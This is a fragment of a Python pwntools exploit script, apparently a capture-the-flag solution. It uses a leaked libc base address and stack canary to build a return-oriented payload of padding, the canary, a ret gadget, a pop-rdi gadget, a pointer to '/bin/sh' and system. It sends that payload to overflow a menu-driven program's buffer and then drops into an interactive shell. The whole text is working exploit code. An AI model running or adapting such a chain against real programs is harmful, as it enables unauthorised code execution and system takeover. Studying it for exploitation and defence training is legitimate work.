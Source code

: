 ```
info('Libc base: ' + hex(libc.address))
info('Canary leak: '+ hex(can))

# Cooking shell
# payload = p64(ret) + p64(prdi) + p64(next(libc.search(b"/bin/sh\0"))) + p64(libc.sym.system)
prdi = libc.address + 0x28795
ret = libc.address + 0x0000000000026a3e
payload = b'a'*24 + p64(can) + b'a'*8 + p64(ret) + p64(prdi) + p64(next(libc.search(b'/bin/sh\0'))) + p64(libc.sym.system)
for i in range(29):
    sla(b'> ',b'3')
sla(b'move: \n',payload)

p.interactive()
```